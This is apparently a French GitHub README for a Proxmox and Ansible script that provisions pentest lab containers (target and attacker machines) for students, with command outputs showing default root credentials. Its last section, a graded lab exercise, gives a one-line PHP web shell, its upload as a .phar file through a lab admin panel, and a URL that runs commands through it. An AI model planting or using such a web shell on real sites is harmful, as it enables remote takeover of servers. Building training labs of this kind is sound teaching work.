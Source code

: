 # VIR2
### Installation de git

```python
sudp apt install git
```

### Clonage du repo

```python
git glone https://github.com/andre1400/VIR2.git
```
### Rendre executable les .yaml
```
find /vir2/VIR2 -name "AnsibleScriptLAB.yaml" -exec chmod +x {} \;
find /vir2/VIR2 -name "AnsibleScriptPirate.yaml" -exec chmod +x {} \;
```

### Installation du module python qu’on aura besoin pour notre script plus tard

```python
pip install absl-py
```

### Installation d’Ansbile

```bash
apt update
apt upgrade
apt install python3-pip
python3 -m pip install --user ansible
echo 'export PATH="$HOME/.local/bin:$PATH"' >> ~/.bashrc
source .bashrc
ansible-galaxy collection install community.mysql
```
## Create new template
```
root@pve-01:~# pct clone 100 {newId} --full --storage lxc-storage
```
### Attrapper la nouvelle ip
```
root@pve-01:~# pct exec {newId} -- ip addr | grep eth0 | grep inet | awk '{print $2}'
10.10.111.148/24
Start ansible machine & get his ip

root@pve-01:~# pct start 101
root@pve-01:~# pct exec 101 -- ip addr | grep eth0 | grep inet | awk '{print $2}'
192.168.100.140/24
root@pve-01:~# ssh root@ip
```
### Echange de clé pour la nouvelle machine
```
root@pve-01:~# ssh-keygen root@ip
```
### Edition du .yaml et du .ini file
```
root@pve-01:~# ansible-playbook -i inventoryPirate.ini AnsibleScriptPirate.yaml --ask-pass
```
### Convertion en template
```
root@pve-01:~# pct template {newId}
```
### Edition du ScriptPython.py avec les id's
```
def main(ARGV):
    pentesterlab = 102
    attacking = 100
```
# Utilisation des contenaires
## Creation
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task create --number 5
```
/// OUTPUT
```
Creation des pentesterlabs
ID : 200 Created
ID : 201 Created
ID : 202 Created
ID : 203 Created
ID : 204 Created
Creation des machines attaquantes
ID : 300 Created
ID : 301 Created
ID : 302 Created
ID : 303 Created
ID : 304 Created
```
## Start
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task start --number 3
```
///OUTPUT
```
==Start des machines pentesterlabs==
ID : 200 IP : 10.10.111.150/24
Username: root Password: Pa$$w0rd
ID : 201 IP : 10.10.111.151/24
Username: root Password: Pa$$w0rd
ID : 202 IP : 10.10.111.152/24
Username: root Password: Pa$$w0rd

==Start des machines attaquantes Let's GO !!!...==
ID : 400 IP : 10.10.111.143/24
Username: root Password: Pa$$w0rd
ID : 401 IP : 10.10.111.153/24
Username: root Password: Pa$$w0rd
ID : 402 IP : 10.10.111.154/24
Username: root Password: Pa$$w0rd
root@pve-01:/vir2/VIR2#
```
## STOP
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task stop --number 3
```
/// OUTPUT
```
==Stop des machines pentesterlabs==
ID : 200 Stopped
ID : 201 Stopped
ID : 202 Stopped

==Stop des machines attaquantes==
ID : 400 Stopped
ID : 401 Stopped
ID : 402 Stopped
```
## SUPPRESSION (STOP + SUPPRESSION)
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task erase --number 3
```
///OUTPUT
```
==Remove des machines pentesterlabs==
  Logical volume "vm-200-disk-0" successfully removed
ID : 200 Removed
  Logical volume "vm-201-disk-0" successfully removed
ID : 201 Removed
  Logical volume "vm-202-disk-0" successfully removed
ID : 202 Removed

==Remove des machine attaquantess==
  Logical volume "vm-400-disk-0" successfully removed
ID : 400 Removed
  Logical volume "vm-401-disk-0" successfully removed
ID : 401 Removed
  Logical volume "vm-402-disk-0" successfully removed
ID : 402 Removed
```
## Lister
*Ca va lister uniquement l'environnement lab de l'étudiant, pour tous lister : pct list*

/// INPUT
```
root@pve:~# python3 ./ScriptPython.py --task list --number 2
```
///OUTPUT
```
Listing all containers :
200 stopped penterlabT
201 stopped penterlabT
300 stopped attackerT
301 stopped attackerT
```
## Exécution d’un script `myshell.php` sur `pentester-03` [3 pts]**
    1. Tester depuis le navigateur de l’étudiant *`http://pentester-03/admin/uploads/myshell.phar?cmd=ls`*
        
        <?php  
           system($_GET['cmd']);
        ?>
```
lynx http://10.10.111.169/
go to > Admin
type : y
Login : admin
Password : P4ssw0rd
go on > add
Title : myshell.PHP
File : myshell.phar
click on > add
CRTL + C to quit lynx
```
```
lynx http://10.10.111.169/admin/uploads/myshell.phar?cmd=ls
```
